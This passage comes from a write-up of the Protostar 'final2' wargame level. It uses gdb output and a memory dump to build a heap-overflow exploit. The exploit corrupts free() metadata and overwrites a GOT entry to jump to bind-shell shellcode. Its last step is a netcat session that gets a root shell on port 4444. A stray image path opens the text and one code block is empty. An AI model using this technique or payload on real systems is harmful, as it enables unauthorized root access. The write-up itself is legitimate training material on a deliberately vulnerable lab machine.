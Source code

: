 This looks ok, however we are getting a SIGSEGV when freeing the first chunk:

```lang-bash line-numbers 
Program received signal SIGSEGV, Segmentation fault.
0x0804aaf8 in free (mem=0x804e008) at final2/../common/malloc.c:3648
3648	final2/../common/malloc.c: No such file or directory.
	in final2/../common/malloc.c
```

Lets see what is happening:

```lang-bash line-numbers 
(gdb) x/i 0x0804aaf8
0x804aaf8 <free+310>:	mov    %edx,0x8(%eax)
(gdb) i r eax
eax            0x44444444	1145324612
(gdb) i r edx
edx            0x804d410	134534160
```

Oh nice, so its just us trying to overwrite the GOT entry with our DDDD block. So lets use the address of our shellcode instead. AS we saw in the chunk2 memory, our shellcode starts in 0x804e098:

```lang-bash line-numbers 
(gdb) x/32x 0x804e090
0x804e090:	0x0804d410	0x44444444	0x90909090	0x90909090
0x804e0a0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0b0:	0xf7db3190	0x534353e3	0xe189026a	0x80cd66b0
0x804e0c0:	0x68525e5b	0x5c1102ff	0x5051106a	0x666ae189
0x804e0d0:	0x8980cd58	0x04b30441	0x80cd66b0	0xcd66b043
0x804e0e0:	0x6a599380	0x80cd583f	0x68f87949	0x68732f2f
0x804e0f0:	0x69622f68	0x50e3896e	0xb0e18953	0x2f80cd0b
0x804e100:	0xfffffffc	0xfffffffc	0x0804d410	0x44444444
```

So our final payload will be:

```lang-bash line-numbers 
s.send("FSRD" + "X"*(128-4-1) + "/")
s.send("FSRD" + "ROOT" + "\x90"*(128-len(shellcode)-4-4-1-4-4-4-4) + shellcode + "/" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x10\xd4\x04\x08" + "\x98\xe0\x04\x08" )
```

Lets try it:

```lang-bash line-numbers 
```

and the shell should be waiting for us in port 4444:

```lang-bash line-numbers 
root@protostar:~# netstat -natp | grep LISTEN
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      777/portmap
tcp        0      0 0.0.0.0:2993            0.0.0.0:*               LISTEN      1301/final2
tcp        0      0 0.0.0.0:2994            0.0.0.0:*               LISTEN      1299/final1
tcp        0      0 0.0.0.0:2995            0.0.0.0:*               LISTEN      1297/final0
tcp        0      0 0.0.0.0:2996            0.0.0.0:*               LISTEN      1295/net3
tcp        0      0 0.0.0.0:2997            0.0.0.0:*               LISTEN      1293/net2
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1361/sshd
tcp        0      0 0.0.0.0:2998            0.0.0.0:*               LISTEN      1291/net1
tcp        0      0 0.0.0.0:2999            0.0.0.0:*               LISTEN      1289/net0
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      1270/exim4
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      1819/final2
tcp        0      0 0.0.0.0:46752           0.0.0.0:*               LISTEN      789/rpc.statd
tcp6       0      0 :::22                   :::*                    LISTEN      1361/sshd
tcp6       0      0 ::1:25                  :::*                    LISTEN      1270/exim4
root@protostar:~# nc localhost 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
